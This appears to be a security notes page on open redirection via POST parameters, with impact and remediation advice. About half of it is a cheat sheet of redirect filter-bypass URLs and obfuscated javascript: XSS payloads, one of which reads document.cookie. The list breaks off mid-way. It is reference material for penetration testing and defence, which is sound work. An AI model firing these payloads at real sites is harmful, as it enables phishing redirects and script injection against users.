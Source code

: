 ```yaml
---
tags:
  - web-app-security
---
```

- **Open Redirection in the POST method**
    
    - **Summary**
        
        <aside> 🐞 Open Redirection vulnerability in a POST parameter. Open redirect occurs when a web page is being redirected to another URL in another domain via a user-controlled input.
        
        </aside>
        
    - **Impact**
        
        <aside> 🐞 Because the vulnerability can be only exploited via POST requests, its impact is very limited and it cannot be directly used for common Open Redirect attacks such as phishing.
        
        </aside>
        
    - **Remediation**
        
        <aside> 🐞 **Remediation**
        
        - If you definitely need dynamic URLs, use whitelisting. Make a list of valid, accepted URLs and do not accept other URLs.
        - Where possible, do not use users' input for URLs.
        - Ensure that you only accept URLs those are located on the trusted domains. </aside>
- **Bypasses Payloads**
    
    ```bash
    https://allow_domain.hahwul.com
    https://allow_domain@hahwul.com
    https://www.hahwul.com#allow_domain
    https://www.hahwul.com?allow_domain
    https://www.hahwul.com\\allow_domain
    https://www.hahwul.com&allow_domain
    http:///////////www.hahwul.com
    http:\\\\www.hahwul.com
    http:\\/\\/www.hahwul.com
    # if target accept only google.com
    https://google.com/amp/s/poc.attacker.com
    ```
    
- **Open Redirect to XSS**
    
    ```jsx
    javascript:alert(1)
    java%00script: 
    java%0Ascript: 
    java&tab;script:
    java%0Ascript:al%0Aert()
    java%0d%0ascript%0d%0a:alert(0)
    javascript://%250Aalert(1)
    javascript://%250Aalert(1)//?1
    javascript://%250A1?alert(1):0
    %09Jav%09ascript:alert(document.domain)
    javascript://%250Alert(document.location=document.cookie)
    /%09/javascript:alert(1);
    /%09/javascript:alert(1)
    //%5cjavascript:alert(1);
    //%5cjavascript:alert(1)
    /%5cjavascript:alert(1);
    /%5cjavascript:alert(1)
    javascript://%0aalert(1)